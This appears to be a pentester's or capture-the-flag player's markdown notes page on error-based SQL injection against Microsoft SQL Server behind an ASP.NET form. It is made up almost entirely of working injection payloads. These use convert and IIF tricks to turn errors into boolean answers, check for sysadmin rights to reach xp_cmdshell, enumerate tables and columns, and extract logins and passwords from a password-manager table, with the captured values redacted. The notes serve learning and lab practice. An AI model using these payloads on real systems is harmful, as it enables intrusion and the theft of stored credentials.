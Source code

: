 ```yaml
---
description: MSSQL
---
```


# ERROR BASED

There is a form.

SQL Injection.

```
' - Error
'' - Error disappears
```

https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

https://portswigger.net/web-security/sql-injection/cheat-sheet

It should be MSSQL. Because of ASP.NET web service. Try that.

Specify String Concatenation

```
'+(SELECT '')+'
```

You can also exploit this behavior to test conditions.

```
'+(SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END)+'
```

We can see error page. So we can try using transformation errors than time based errors.

[https://ozguralp.medium.com/turning-blind-error-based-sql-injection-into-an-exploitable-boolean-one-85d6be3ca23b](https://ozguralp.medium.com/turning-blind-error-based-sql-injection-into-an-exploitable-boolean-one-85d6be3ca23b)

```
'+convert(id,db_name())+'  ERROR
'+convert(char,db_name())+'  OK

'+convert(char,(SELECT IIF(SUBSTRING(DB_NAME(),1,1)='A',3,@@VERSION)))+'
```

This query was working as this:&#x20;

* Sub-stringing the database name starting from 1st character within 1 length and comparing within ‘A’ character whether it equals or not.
* If that character equals to ‘A’, then it returns 3 as integer.
* Converting ‘3’ as integer to char is successful and returns without any errors, meaning that the query is true.
* If the character does not equal to ‘A’, then it returns @@VERSION as T-SQL functionality.
* Converting @@VERSION result to char is not successful and returns error (Error.aspx page), meaning that the query is false!

```
'+convert(char,(SELECT IIF(SUBSTRING(HOST_NAME(),1,1)='A',3,@@VERSION)))+'

Microsoft SQL Server 2017 (RTM)
```

```
%2bconvert(char,(SELECT IIF(SUBSTRING((***query_here***),1,1)='d',3,@@VERSION)))%2b

'+convert(char,(SELECT IIF(SUBSTRING((select top 1 table_name from INFORMATION_SCHEMA.tables),1,1)='A',3,@@VERSION)))+'
```

https://www.exploit-db.com/papers/12975

```
'+convert(int,(user_name()))+' - testuser

'+(SELECT CASE WHEN (is_srvrolemember('sysadmin', 'testuser')=0) THEN 1/0 ELSE NULL END)+' - Nope 

'+(SELECT CASE WHEN (is_srvrolemember('sysadmin')=1) THEN 1/0 ELSE NULL END)+' - True
```

:( - If it is equal to 1, we can execute xp\_cmdshell command. So we can not execute the command anyways.

https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94

```
'+(convert(int,(select top 1 table_name from information_schema.tables)))+'
```

The above query will retrieve the top table\_name from the database.

Conversion failed when converting the nvarchar value 'users' to data type int.

Got a good table if not,

```
convert(int,(select top 1 table_name from information_schema.tables where table_name not in ('Download_Document','login_audit')))  
- Keep going find a proper table name
```

```
'+convert(int,(select top 1 column_name from information_schema.columns where table_name='users'))+'

'+convert(int,(select top 1 column_name from information_schema.columns where column_name not in ('col1','col2','col3')))+'

'+convert(int,(select top 1 username from users))+'

'+convert(int,(select top 1 username from users where username not in ('user1','user2'')))+'
```

#### Different Approach

https://github.com/shauntdergrigorian/CTF-Notes

```
'+convert(int,(SELECT top 1 DB_NAME(6)))+'

archive

'+convert(int,(SELECT top 1 DB_NAME(6)))+'

Getting other db - DB_NAME(i) 0<i<7(To get no error)

'+convert(int,(Select top 1 name from archive..syscolumns))+'

'+convert(int,(Select top 1 name from archive..syscolumns where name 
not in ('alogin','id','psw')))+'

'+convert(int,(SELECT top 1 alogin FROM archive..pmanager where alogin 
not in ('REDACTED', 'REDACTED','REDACTED','REDACTED')))+'

'+convert(int,(SELECT top 1 psw FROM archive..pmanager where psw not in 
('REDACTED','REDACTED',
'REDACTED','REDACTED')))+'

'+convert(int,(select top 1 column_name from archive..pmanager.alogin))+'
```
